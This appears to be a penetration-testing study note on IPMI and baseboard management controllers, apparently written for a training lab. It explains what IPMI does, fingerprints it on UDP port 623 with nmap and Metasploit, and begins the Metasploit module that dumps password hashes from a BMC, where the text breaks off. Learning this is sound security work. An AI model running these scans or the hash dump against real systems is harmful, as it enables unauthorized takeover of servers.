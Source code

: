 ### Overview

- **Definition**: Standardized specifications for hardware-based system management, operating independently of the host’s BIOS, CPU, firmware, and OS.
- **Functionality**: Enables remote management and monitoring (e.g., system temperature, voltage, fan status, power supplies) even when the system is powered off or unresponsive.
- **Use Cases**:
    - Modify BIOS settings before OS boot.
    - Manage systems when powered down.
    - Access hosts post-system failure.
- **Operation**: Uses a direct network connection to hardware, not requiring OS login.
- **Components**:
    - **Baseboard Management Controller (BMC)**: Core microcontroller.
    - **Intelligent Chassis Management Bus (ICMB)**: Inter-chassis communication interface.
    - **Intelligent Platform Management Bus (IPMB)**: Extends BMC functionality.
    - **IPMI Memory**: Stores system event logs and repository data.
    - **Communication Interfaces**: Local, serial, LAN, ICMB, and PCI Management Bus.
- **Vendors**: Supported by over 200 vendors (e.g., Cisco, Dell, HP, Supermicro, Intel).
- **IPMI v2.0**: Supports serial over LAN for viewing console output.

### Footprinting

- **Port**: Communicates over UDP/623.
- **BMC Implementation**: Embedded ARM systems running Linux, connected to the motherboard or added via PCI card.
- **Common BMCs**: HP iLO, Dell DRAC, Supermicro IPMI.
- **Risk**: BMC access grants near-physical control (monitor, reboot, power off, reinstall OS).
- **Nmap Scan**:
    
    ```bash
    sudo nmap -sU --script ipmi-version -p 623 ilo.inlanefreight.local
    
    ```
    
    - **Output**: Identifies IPMI v2.0, user authentication methods, and MAC address.
- **Metasploit**:
    
    ```bash
    msf6 > use auxiliary/scanner/ipmi/ipmi_version
    msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
    msf6 auxiliary(scanner/ipmi/ipmi_version) > run
    
    ```
    
    - **Output**: Confirms version and settings.

### Security Risks

- **Hash Dumping**:
    - Metasploit module: `auxiliary/scanner/ipmi/ipmi_dumphashes`.
    - Command:
        
        ```bash
        msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
        msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
        msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
        